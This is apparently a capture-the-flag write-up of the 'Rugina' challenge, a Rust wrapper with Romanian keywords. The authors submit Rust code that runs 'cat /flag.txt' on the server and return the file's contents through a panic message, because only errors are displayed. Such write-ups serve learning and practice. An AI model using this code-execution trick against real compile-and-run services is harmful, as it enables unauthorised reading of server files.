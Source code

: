 rugina

Aren't you tired of rust? I found the perfect solution for you! Welcome to Rugină. Since there is no compiler for it yet, I made one for you.

- On this one we check the [rugina](https://github.com/aionescu/rugina/tree/principal) repository on github, but we saw is a wrapper for Rust. In that case we tried some normal rust code which we found out that worked.

- First you need to add the function Principal for the compiler to work.

```rust
principal() {

}
```

![rugina-principal](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/Rugina/rugina-principal.png)

- After we manage to create some code that worked, but we saw that wasn't printing anything

```rust
principal() {
    let output = std::process::Command::new("cat").arg("/flag.txt").output().unwrap().stdout;
    let output_str = String::from_utf8(output).unwrap_or_default();
    scrie!("{}", output_str.trim());
}
```

![rugina-println](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/Rugina/rugina-println.png)

- We analyze the repository again to check if we made some mistakes, but we didn't. Some time passed and one of us pointed out that "only the errors are shown and not the normal print". In that case we changed from a normal println to panic and in that moment worked.

```rust
principal() {
    let output = std::process::Command::new("cat").arg("/flag.txt").output().unwrap().stdout;
    let output_str = String::from_utf8(output).unwrap_or_default();
    panic!("{}", output_str.trim());
}
```

![rugina-flag](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/Rugina/rugina-flag.png)

- And this is how we got the flag out
